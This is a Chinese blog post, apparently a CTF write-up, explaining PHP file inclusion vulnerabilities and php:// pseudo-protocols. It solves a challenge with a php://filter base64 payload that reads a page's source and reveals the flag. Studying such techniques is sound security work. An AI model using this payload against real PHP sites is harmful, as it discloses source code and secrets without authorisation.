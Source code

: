 ```yaml
---
layout:     post
title:      FileInclude 
subtitle:   
date:       2020-03-15
author:     SGQ
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - FileInclude 
    - Web
---
```


## 简介:

   程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，
而无需再次编写，这中文件调用的过程一般被称为文件包含。

   程序开发人员一般希望代码更灵活，所以将被包含的文件设置为变量，用来进行动态调用，
但正是由于这种灵活性，从而导致客户端可以调用一个恶意文件，造成文件包含漏洞。





## 题目:

``` html
<body> 

    <div class="navbar navbar-inverse navbar-fixed-top">
      <div class="navbar-inner">
        <div class="container">
          <a class="btn btn-navbar" data-toggle="collapse" data-target=".nav-collapse">
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
          </a>
          <a class="brand" href="http://blue-whale.me/">blue-whale.me</a>
          <div class="nav-collapse collapse">
            <ul class="nav">
              <li class="active"><a href="./?page=home">Home</a></li>
              <li class="active"><a href="./?page=flag">Flag</a></li>
            </ul>
          </div><!--/.nav-collapse -->
        </div>
      </div>
    </div>

    <div class="container">



ha ha? you want flag? flag is here, but don't let you see!

      <footer>
        <p>&copy; Blue-Whale 2017</p>
      </footer>

    </div> <!-- /container -->


  </body>

```

## 考察点：

**1.文件包含的基本原理**

**2.文件包含如何构造payload**


## 知识点：


**1.原理:**

PHP文件包含漏洞的产生原因是在通过PHP的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。最常见的就属于本地文件包含（Local File Inclusion）漏洞了。

程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，而无需再次编写，这中文件调用的过程一般被称为文件包含。

**2.文件包含漏洞分为：**
(1).本地文件包含漏洞
顾名思义，就是在网站服务器本身存在恶意文件，然后利用本地文件包含使用
(2).远程文件包含漏洞
远程文件包含就是调用其他网站的恶意文件进行打开


**3.php常见的几个文件包含函数：**
`include()`,   `include_once()`,  `fopen()`, `require()`,  `require_once()`

**4.php伪协议的分类**

>`php://input`

php://input代表可以访问请求的原始数据，简单来说POST请求的情况下，php://input可以获取到post的数据。

使用条件：`include( )`、`include_once( )`、`file_get_contents( )`

比较特殊的一点，enctype=”multipart/form-data”的时候 php://input 是无效的。

>`php://output`

php://output 是一个只写的数据流，允许你以print和echo一样的方式写入到输出缓冲区。

>`php://filter`

php://filter是一种元封装器，设计用于数据流打开时的筛选过滤应用，也就是作为一种过滤器，可以使用在数据流产生的地方。

类似的过滤器还有`string.rot13`、`string.strip_tags`、`zlib.deflate`和`zlib.inflate`等等，目前只要知道`convert.base64-encode`就可以。

**5.URL 中包含点的常见形式:**

`?file = xxx `或者 `?file = xxx.php`



## 解题过程：

**1.** 首先分析页面代码，发现 `<li class="active"><a href="./?page=home">Home</a></li>`,
              `<li class="active"><a href="./?page=flag">Flag</a></li>`  ，可能出现文件包含漏洞.




**2.** 然后开始构造payload，分析页面发现，`http://vps1.blue-whale.me:23338/?page=flag` ,这里是靠page参数进行跳转页面，
于是构造payload : `?page=php://filter/read/resource=./flag `  ,此段代码的含义可理解为筛选`page=flag`的页面并读取。但是页面并没有反应，于是我猜想可能是因为过滤了`read`这个关键词（一般会对一些伪协议的关键词进行过滤，如`read`、`resource`等等）。

**3.** 试一下将read这个关键词进行BASE64加密，新的payload：

`?page=php://filter/read=convert.base64-encode/resource=./flag`

**4.** 得到一组BASE64加密的字符串

`aGEgaGE/IHlvdSB3YW50IGZsYWc/IGZsYWcgaXMgaGVyZTw/cGhwDQovLyB0cnkgdG8gcmVhZCB0aGlzIHNvdX
JjZSBjb2RlDQovLyRmbGFnID0gJ2ZsYWd7cmVhbGx5X2Jhc2ljX3NraWxsX3dlYl9kb2dfc2hvdWxkX2tub3d9J
zsNCj8+LCBidXQgZG9uJ3QgbGV0IHlvdSBzZWUhDQo=`

**5.** 进行解密，得到flag！
``` php
ha ha? you want flag? flag is here
<?php
// try to read this source code
//$flag = 'flag{really_basic_skill_web_dog_should_know}';
?>, but don't let you see!   

```


**flag{really_basic_skill_web_dog_should_know}**





[参考链接（一）--文件包含原理](https://blog.csdn.net/qq_42133828/article/details/83927058)

[参考链接（二）--文件包含的技巧](https://www.cnblogs.com/ichunqiu/p/10683379.html)

## 谢谢您的查阅，欢迎来访！
